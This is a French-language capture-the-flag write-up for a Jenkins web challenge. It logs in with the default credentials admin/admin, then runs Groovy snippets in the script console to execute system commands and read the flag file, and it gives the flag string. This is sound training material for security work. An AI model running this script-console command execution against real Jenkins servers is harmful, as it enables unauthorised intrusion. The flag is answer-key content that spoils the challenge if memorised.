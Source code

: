 * * *
# Jenkins
> (Web, 400 points )
---
## Challenge :
> http://51.91.120.156:8085

Une fois qu'on accède au lien du challenge, on aperçoit l'application **java Jenkins**. **Jenkins est un outil open source d'intégration continue** qui fonctionne dans un conteneur de servlets tel qu’Apache Tomcat, ou en mode autonome avec son propre serveur Web embarqué. L'objectif de ce challenge à d'arriver à **exploiter les vulnérabilités de cette application**, pour retrouver le ```flag```. Les recherches qu'on aura à effectuer vont donc se restreindre à des **vulnérabilités d'exécution de commande système** sur le serveur hébergeant l'application **Jenkins**. Après quelques recherches nous retrouvons cet article https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/, qui détaille de long en large les différentes méthodes pouvant être utilisé pour mener à bien une **injection de commande système** sur une application **JAVA**. Avant tout, connectons-nous sur l'application avec les ```credentials``` : ```admin``` pour **username** et ```admin``` pour **password**. Après ceci, passons à l'exploitation. Pour commencer : 

1. Chargeons cette adresse url http://51.91.120.156:8085/script
<img src="Images/jenkins-1.png">

2. Pour tester une injection de comande, écrivons ce bout de code dans le champ de texte :
```
def cmd = "ls -l".execute();
println("${cmd.text}");
```

On constate que l'injection marche à merveille. En se mettant à la recherche du ```flag```, on fini par retrouver le répertoire dans lequel il se trouve.
```
def cmd = "cat /var/jenkins_home/flag.txt".execute();
println("${cmd.text}");
```


```Flag ```: **CTF_ThatWasUnbreakableIThought**
